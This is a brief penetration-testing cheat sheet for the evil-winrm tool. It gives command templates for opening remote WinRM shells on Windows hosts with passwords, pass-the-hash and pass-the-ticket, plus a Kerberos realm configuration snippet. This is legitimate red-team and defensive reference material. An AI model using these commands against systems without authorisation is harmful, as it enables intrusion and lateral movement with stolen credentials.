 # evil-winrm
% windows, remote, winrm, evilwinrm, 5985, 5986
#plateform/linux  #target/remote  #protocol/winrm #port/5985 #port/5986 #cat/ATTACK/CONNECT 

## local account with creds
```bash
evil-winrm -i <ip> -u <user> -p <password>
```
## domain account with creds
```bash
evil-winrm -i <ip> -u <user>@<domain> -p <password>
```

## local account pth
```bash
evil-winrm -i <ip> -u <user> -H <hash>
```

## domain account pth
```bash
evil-winrm -i <ip> -u <user>@<domain> -H <hash>
```

## pass the ticket
add realm /etc/krb5.conf
[libdefaults]
        rdns=false
[realms]
CONTOSO.COM = {
             kdc = fooserver.contoso.com
 }
```bash
export KRB5CCNAME=<ticket> && evil-winrm -i <target_fqdn>  --realm <domain>
```